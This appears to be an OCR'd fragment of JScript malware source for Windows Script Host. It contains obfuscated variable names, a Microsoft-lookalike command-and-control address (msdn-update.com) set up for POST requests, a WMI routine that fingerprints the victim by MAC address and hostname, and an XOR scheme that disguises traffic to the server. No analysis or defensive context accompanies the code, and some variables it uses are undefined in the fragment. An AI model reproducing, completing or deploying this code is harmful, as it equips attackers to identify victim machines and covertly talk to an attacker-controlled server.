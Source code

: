     var bhomnismictu = "encrypt";
    var ocsekeltan = "show_png";
    var vivijsozvali = "User-Agent";
    var yracypcamos = "no";
    var kexerobi = "cdn";
    var inamvagtixjyxj = "POST";
    var usubhejreva = "_";
    var jaxylibpafl = "";
    var hbanamyklujt = "";
    var bvaxoqwetmodg = "agyjabam=";
    var ditevnaqa = "https://msdn-update.com/";
    var wegmexxabha = "POST";
    var dnanehmufride = "encrypt";
    var fypalygos = "application/x-www-form-urlencoded";
    var urmuqizemz = "Content-Type";

    function id() {
        var lrequest = wmi.ExecQuery("select * from Win32_NetworkAdapterConfiguration where ipenabled = true");
        var lItems = new Enumerator(lrequest);
        for (; !lItems.atEnd(); lItems.moveNext()) {
            var mac = lItems.item().macaddress;
            var dns_hostname = lItems.item().DNSHostName;
            if (typeof mac === vimkiwono && mac.length > 1) {
                if (typeof dns_hostname !== vimkiwono && dns_hostname.length < 1) {
                    dns_hostname = otbybimollu;
                } else {
                    for (var i = 0; i < dns_hostname.length; i++) {
                        if (dns_hostname.charAt(i) > edomsecejso) {
                            dns_hostname = dns_hostname.substr(0, i) + yqpawymfikorh + dns_hostname.substr(i + 1);
                        }
                    }
                }
                return mac + yqpawymfikorh + dns_hostname;
            }
        }
    }

    function crypt_controller(type, request) {
        var encryption_key = obawufdoxsa;
        if (type === esajigfown) {
            request = unescape(request);
            var request_split = request.split(")*(");
            request = request_split[0];
            encryption_key = request_split[1].split(obawufdoxsa);
        } else {
            encryption_key = (Math.floor(Math.random() * 9000) + 1000).toString().split(obawufdoxsa);
            request = unescape(encodeURIComponent(request));
        }
        var output = new Array(request.length);
        for (var i = 0; i < request.length; i++) {
            var charCode = request.charCodeAt(i) ^ encryption_key[i % encryption_key.length].charCodeAt(0);
            output[i] = String.fromCharCode(charCode);
        }
        var result_string = output.join(obawufdoxsa);
        if (type === fifuwacdez) {
            result_string = result_string + ")*(" + encryption_key.join(obawufdoxsa);
            result_string = escape(result_string);
        }
        return result_string;
    }
